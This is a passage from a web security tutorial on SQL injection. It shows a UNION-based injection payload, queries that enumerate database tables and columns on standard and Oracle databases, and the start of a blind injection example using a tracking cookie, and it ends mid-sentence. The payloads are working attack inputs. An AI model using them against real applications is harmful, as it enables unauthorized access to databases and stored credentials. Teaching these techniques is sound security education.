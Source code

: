 For example, you could use a UNION attack with the following input:
```
' UNION SELECT @@version--
```

## Listing the contents of the database
Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

For example, you can query 'information_schema.tables' to list the tables in the database:
```
SELECT * FROM information_schema.tables
```
This returns output like the following: 
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```
This output indicates that there are three tables, called 'Products', 'Users', and 'Feedback'. 

You can then query 'information_schema.columns' to list the columns in individual tables: 
```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```
This returns output like the following: 
```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

## Listing the contents of an Oracle database
On Oracle, you can find the same information as follows:
- You can list tables by querying all_tables:
```
SELECT * FROM all_tables
```
- You can list columns by querying all_tab_columns:
```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

# Blind SQL injection vulnerabilities
## Blind SQL injection with conditional responses
Consider an application that uses tracking cookies to gather analytics about usage. Requests to the application include a cookie header like this:
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
When a request containing a 'TrackingId' cookie is processed, the application uses a SQL query to determine whether this is a known user: 
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
The application does behave differently depending on whether the query returns any data. If you submit a recognized TrackingId, the query returns data and you receive a "Welcome back" message in the response
